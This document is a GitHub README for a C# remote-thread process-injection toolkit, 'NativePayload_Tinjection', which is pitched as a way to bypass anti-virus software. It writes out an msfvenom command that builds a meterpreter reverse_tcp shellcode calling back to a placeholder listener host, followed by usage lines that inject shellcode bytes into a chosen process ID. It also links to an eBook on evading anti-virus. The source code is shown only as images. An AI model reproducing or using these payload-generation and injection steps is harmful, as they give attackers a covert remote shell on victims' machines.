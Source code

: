 # NativePayload_Tinjection
Creating Remote Thread into Target Process , (Remote Thread Injection by C# + Delegate Techniques)

-----------------------
Related Links for "Mitre ATT&CK": 

Process Injection: Portable Executable Injection ==>  https://attack.mitre.org/techniques/T1055/002/

Process Injection: Dynamic-link Library Injection ==> https://attack.mitre.org/techniques/T1055/001/

--------------------------
Your Payload Should be Msfvenom Payload ... 

msfvenom –platform windows –arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=w.x.y.z -f c > payload.txt
-------------------------

    Code1: NativePayload_Tinjection.exe [TPID] [PAYLOAD]

    Code2: NativePayload_Tinjectionx.exe [TPID] [PAYLOAD]
    
    Code3: NativePayload_Tinjection2.exe [TPID] [PAYLOAD]
    
    Code4: NativePayload_Tinjection2nt.exe [TPID] [PAYLOAD]


    EXAMPLE: NativePayload_Tinjection.exe 2452 "FC,48,83,00,..."

    EXAMPLE: NativePayload_Tinjectionx.exe 2452 "FC,48,83,00,..."
    
    EXAMPLE: NativePayload_Tinjection2.exe 2452 "FC,48,83,00,..."
    
    EXAMPLE: NativePayload_Tinjection2nt.exe 2452 "FC,48,83,00,..."
    
------------------------------------------------

Article [1]: https://www.linkedin.com/pulse/bypassing-anti-virus-creating-remote-thread-target-mohammadbagher

step by step => Chapter 14: C# Delegate & Remote Thread Injection Technique (Part1)

https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH14/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2014%20-Part1.pdf

------------------------------------------------

online eBook, (chapters): https://damonmohammadbagher.github.io/Posts/ebookBypassingAVsByCsharpProgramming/

------------------------------------------------

NativePayload_Tinjection.cs

![](https://github.com/DamonMohammadbagher/NativePayload_Tinjection/blob/main/Picture/2.jpeg)

NativePayload_Tinjection2nt.cs

![](https://github.com/DamonMohammadbagher/NativePayload_Tinjection/blob/main/Picture/NativePayload_Tinjection2nt.png)

<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_Tinjection"/></a></p>

